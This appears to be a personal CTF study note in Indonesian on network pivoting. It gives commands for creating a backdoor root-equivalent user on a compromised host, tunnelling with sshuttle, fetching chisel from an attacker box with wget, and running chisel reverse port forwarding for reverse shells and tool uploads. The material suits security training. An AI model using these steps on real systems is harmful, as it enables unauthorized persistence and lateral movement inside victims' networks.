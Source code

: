 # Pivoting
---
sebuah teknik yang membuat kita mendapatkan akses ke network lain dari mesin yang sudah kita dapatkan/eksploitasi. Tujuannya agar kita bisa mengakses mesin pada network lain dalam satu jaringan dari mesin yang sama. [Baca Disini](https://medium.com/mii-cybersec/basic-network-pivoting-5aca38b4bfa1)

--- 
NOTES :
>Disini saya menggunakan metodologi yang saya buat dari hasil mengikuti event CTF mulai dari masuk ke networknya dan mendapatkan shellnya. Diingatkan kembali disini saya mempelajari tetapi tidak mendalami jadi mungkin ada miss pengertian pada beberapa penjelasan. Dan tentu saya bakal update jika saya benar-benar memahami pivoting dengan cara lain (Gambar akan menyusul jika ingat :D)

#### Requirements
---
1. Mesin yang terhubung dengan mesin lainnya (bisa cek menggunakan `ip a s`)
2. [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.7) sesuaikan dengan mesin (normalnya `amd64`)
3. sshuttle [`sudo apt install sshuttle`]

#### Steps to reproduce

> Note :
> Kasus disini tidak mengetahui password salah satu user/root nya

- Membuat Backdoor(?)
1. Pastikan mesin sudah mendapatkan **root** akses (melalui eksploitas) jika kalian tidak mengetahui password dari salah satu user/root nya

2. Buat sebuah user dan isi passwordnya (ketika passwd nanti disuruh isi passwordnya)
```bash
$ useradd johndoe
$ passwd johndoe
```

jika ingin user tersebut dibuat setara dengan root bisa ditambahkan di `/etc/sudoers` nya. [Bisa baca disini](https://linuxize.com/post/how-to-add-user-to-sudoers-in-ubuntu/)

- Tunneling via **sshuttle**
3. Setelah kita membuat user pada mesin kita ke Attacker Box/mesin kita untuk menjalankan perintah sshuttle dan biarkan berjalan 
```bash
$ sudo sshuttle -r johndoe@<ip machine> <ip subnet>/24
```
untuk ip subnet ini berasal dari ip mesin yang akan kita pivoting, bisa dilihat di `ip a s`

> karena kita menggunakan sshuttle, jadi kita bisa mengakses langsung IP machine yang telah kita pivoting. Misal IP Machine yang kita pivoting terdapat services HTTP pada port 8080 maka kita bisa langsung akses misal 192.168.1.106:8080 pada browser
> 
> catatan :
> jika kalian melakukan **nmap** hasilnya pasti setiap port kebuka jadi jika mesin yang kalian dapet terdapat **nmap** (bisa check dengan `which nmap`) maka lakukan enumeration didalam mesinnya saja atau bisa menggunakan proxychains pada attackerbox, tapi pada kasus nyata mungkin saja mesinnya bukan linux melainkan windows oleh maka itu saya harus mempelajari lebih dalam lagi

- Port forwading via **chisel**
Lalu bagaimana kita ingin melakukan reverse shell atau yang lainnya? tentu saja dengan Port Forwarding yang dimana ini akan membuat port khusus yang saling menghubungkan antara **Target Machine <-> Attacker Box** 

Target Machine Side
4. Pada Mesin Target yang telah kita eksploitasi. Kita simpan chisel pada mesinnya dengan menggunakan wget pada mesinnya (jangan lupa nyalain `python3 -m http server 80` pada folder yang ada chiselnya)
```bash
$ wget http://<ip attackerbox>/chisel

# buat chisel jadi execute
$ chmod +x ./chisel
```

5. Setelah itu kita buat mesinnya menjadi sebuah sever menggunakan chisel
```bash
$ ./chisel server --reverse -p 5555
```

Attacker Box Side
6. Jalankan chisel pada attacker box 
```bash
$ ./chisel client <ip target machine>:5555 R:8000:127.0.0.1:8000
```
Bisa dilihat **R** pada perintah di atas merupakan port forwardingnya yang akan di forward di port 8000 pada localhost/mesin kita

> bisa check menggunakan `netstat -tpln` atau `ss -lt` apakah port yang kita forward di **Target Machine** sudah ada atau belum

Terus bagaimana jika kita ingin upload linpeas,dll pada mesin yang telah kita pivoting?
Dalam kasus saya, saya membuat chisel server dan client lagi pada tab terminal baru. Jadi saya membuat **1** untuk hasil **reverse shellnya** dan **1** lagi untuk **upload filenya**.
